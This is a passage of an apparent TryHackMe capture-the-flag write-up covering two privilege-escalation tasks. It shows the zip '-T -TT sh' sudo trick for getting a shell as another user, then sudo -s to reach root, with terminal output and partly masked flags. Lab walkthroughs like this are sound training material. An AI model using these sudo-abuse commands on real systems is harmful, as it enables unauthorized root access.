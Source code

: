 User wileec can sudo! What can he sudo?

`(jsmith) NOPASSWD: /usr/bin/zip`

## Task 8 Privesc #2

Using the sudo-trick, we’re now mr or mrs Smith (and admit, who does not want to be a Mr. or Mrs. Smith once in their life?), as an extra reward, there is flag 2 here.

```
$ TF=$(mktemp -u)
$ sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 32%)
$ sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
$ SHELL=/bin/bash script -q /dev/null
jsmith@Securus:/home/wileec$ cd ~
jsmith@Securus:~$ ls -la
total 24
drwxrwx--- 2 jsmith jsmith 4096 Apr 25  2020 .
drwxr-xr-x 4 root   root   4096 Apr 26  2020 ..
-rw-r--r-- 1 jsmith jsmith  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 jsmith jsmith 3515 Nov  5  2016 .bashrc
-rw-r--r-- 1 jsmith jsmith   33 Apr 25  2020 flag2.txt
-rw-r--r-- 1 jsmith jsmith  675 Nov  5  2016 .profile
jsmith@Securus:~$ cat flag2.txt
THM{V0N318*****Welcome_Home_Wile_E_Coyote!}
```

Flag 2

`THM{V0N318*****Welcome_Home_Wile_E_Coyote!12**123:))}`

## Task 9 Root

As jsmith, we again check for sudo rights (this btw, should be your first action on any box when gaining access to a account)

There are several ways to exploit this rights. Go for it!

What sudo rights does jsmith have?

```
jsmith@Securus:~$ sudo -l
Matching Defaults entries for jsmith on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
jsmith@Securus:~$ sudo -s
root@Securus:/home/jsmith# cd ~
root@Securus:~# ls -la
total 28
drwx------  4 root root 4096 Apr 26  2020 .
drwxr-xr-x 22 root root 4096 Apr 17  2020 ..
lrwxrwxrwx  1 root root    9 Apr 22  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   43 Apr 25  2020 flag3.txt
drwx------  2 root root 4096 Apr 23  2020 .gnupg
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Apr 17  2020 .ssh
root@Securus:~# cat flag3.txt
THM{V0N318*****Great_work!_You_pwned_Erit_Securus_1!}
```
